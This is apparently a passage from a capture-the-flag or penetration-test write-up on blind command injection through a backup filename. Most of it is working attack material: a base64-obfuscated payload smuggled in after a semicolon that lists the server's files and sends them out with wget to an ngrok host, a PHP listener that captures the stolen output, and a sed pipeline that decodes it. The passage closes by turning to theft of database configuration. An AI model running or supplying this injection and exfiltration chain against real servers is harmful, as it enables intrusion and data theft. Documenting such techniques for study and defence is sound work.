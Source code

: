 Initial command
```
ls -la / | base64 | while read line; do wget "http://0b0e-41-74-120-172.ngrok-free.app/${line}"; done
```
base64 encoded command
```
bHMgLWxhIC8gfCBiYXNlNjQgfCB3aGlsZSByZWFkIGxpbmU7IGRvIHdnZXQgImh0dHA6Ly8wYjBlLTQxLTc0LTEyMC0xNzIubmdyb2stZnJlZS5hcHAvJHtsaW5lfSI7IGRvbmU=
```

Final Payload
`backup.bak;` initiates an attempt to create a backup while allowing multiple commands to be executed sequentially using a `semicolon`. Next, the echo command outputs a Base64 encoded initial payload, This output is piped into `base64 -d`, decoding it back to its original form for execution. Finally, the command is run via the shell (`sh`), allowing  arbitrary commands execution on the server without any direct feedback.

```
backup.bak; echo bHMgLWxhIC8gfCBiYXNlNjQgfCB3aGlsZSByZWFkIGxpbmU7IGRvIHdnZXQgImh0dHA6Ly8wYjBlLTQxLTc0LTEyMC0xNzIubmdyb2stZnJlZS5hcHAvJHtsaW5lfSI7IGRvbmU= | base64 -d | sh
```
Saving the output of PHP server to the file.
```
php -S 0.0.0.0:8888 -t . > filesystem.log 2>&1
```

![image](https://hackmd.io/_uploads/S1OumpJWyg.png)

This is how the request made from the victim server to our Ngrok and PHP server looks like
![image](https://hackmd.io/_uploads/SkGIXTy-kx.png)



![image](https://hackmd.io/_uploads/rJ6r4pybke.png)

Using this command we can processes a log file (`filesystem.log`) that contains HTTP request entries, extracting the paths of all GET requests, cleaning them up by removing newlines and slashes, and finally formatting the output to prepare it for Base64 decoding.The overall result will be a decoded string that represents the concatenated paths of all GET requests made which is the output of the command we sent (`ls -la`)

[more details](https://explainshell.com/explain?cmd=sed+-n+%27s%2F.*GET+%5C%28%5B%5E+%5D*%5C%29+-+.*%2F%5C1%2Fp%27+filesystem.log+%7C+tr+-d+%27%5Cn%27+%7C+tr+-d+%27%2F%27+%7C+sed+%27s%2F+%2F%5C%5Cn%2Fg%27+%7C+base64+-d)


```
sed -n 's/.*GET \([^ ]*\) - .*/\1/p' filesystem.log | tr -d '\n' | tr -d '/' | sed 's/ /\\n/g' | base64 -d
```
![image](https://hackmd.io/_uploads/r1ACNp1bkx.png)


## Exfiltrating the Database
Now we can use wget to again to exifiltrate application files which might conatin sensitive informations like database configurations.
